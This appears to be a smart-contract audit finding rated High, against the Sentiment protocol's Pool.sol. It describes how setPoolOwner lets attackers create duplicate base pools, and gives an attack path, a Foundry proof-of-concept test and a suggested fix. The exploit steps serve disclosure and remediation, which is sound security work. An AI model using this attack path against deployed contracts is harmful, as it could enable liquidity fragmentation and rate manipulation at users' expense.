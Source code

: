 Bouncy Banana Aardvark

High

# Users can create duplicate Base Pools by exploiting the setPoolOwner function

### Summary

The breaking uniqueness of the combination of `owner`, `asset` and `rateModelKey` in the `setPoolOwner` function will cause potential liquidity fragmentation and manipulation for the protocol as attackers can create multiple Base Pools with identical parameters by transferring ownership of the pools to themselves.

### Root Cause

In the `setPoolOwner` function of `Pool.sol:616-622`, there is no check to ensure that the combination of `owner`, `asset`, and `rateModelKey` remains unique after ownership transfer.
https://github.com/sentimentxyz/protocol-v2/blob/04bf15565165396608cc0aedacf05897235518fd/src/Pool.sol#L616-L622

### Internal pre-conditions

1. Admin needs to deploy the `Pool.sol`.

### External pre-conditions

No external mechanisms exist

### Attack Path

1. The attacker deploys a contract and uses its address as the owner when calling `initializePool()` with specific asset and `rateModelKey` parameters.
2. The attacker then calls `setPoolOwner()` from the deployed contract, transferring the ownership of the pool to their address.
3. The attacker can now initialize additional pools with the same `asset` and `rateModelKey` by using different initial owners and transferring ownership to themselves.

### Impact

The protocol suffers from liquidity fragmentation and an increased risk of rate manipulation.
The users suffer from inefficiencies and potential financial losses.

### PoC

```solidity
    function testIntializePool() public {
        // test constructor
        address poolImpl = address(new Pool());
        Pool testPool = Pool(address(new TransparentUpgradeableProxy(poolImpl, protocolOwner, new bytes(0))));
        testPool.initialize(protocolOwner, 0, 0, address(registry), address(0), 0, 0);
        assertEq(testPool.registry(), address(registry));

        address rateModel = address(new LinearRateModel(1e18, 2e18));
        bytes32 RATE_MODEL_KEY = 0xc6e8fa81936202e651519e9ac3074fa4a42c65daad3fded162373ba224d6ea96;
        vm.prank(protocolOwner);
        registry.setRateModel(RATE_MODEL_KEY, rateModel);

        address attacker = vm.addr(1);
        vm.startPrank(attacker);
        address controlled1 = address(new Controlled(testPool));
        uint256 id1 = testPool.initializePool(controlled1, address(asset1), type(uint128).max, RATE_MODEL_KEY);
        Controlled(controlled1).setPoolOwner(id1, attacker);

        address controlled2 = address(new Controlled(testPool));
        uint256 id2 = testPool.initializePool(controlled2, address(asset1), type(uint128).max, RATE_MODEL_KEY);
        Controlled(controlled2).setPoolOwner(id2, attacker);
        
        address controlled3 = address(new Controlled(testPool));
        uint256 id3 = testPool.initializePool(controlled3, address(asset1), type(uint128).max, RATE_MODEL_KEY);
        Controlled(controlled3).setPoolOwner(id3, attacker);

        assertEq(testPool.ownerOf(id1), attacker);
        assertEq(testPool.ownerOf(id2), attacker);
        assertEq(testPool.ownerOf(id3), attacker);
        vm.stopPrank();
    }
```

### Mitigation

To mitigate this issue, change the `poolId` to `uint256(keccak256(abi.encodePacked(owner, asset, rateModelKey)))` and return it in the `setPoolOwner` function. That ensures the combination of `owner`, `asset`, and `rateModelKey` remains unique after ownership transfer.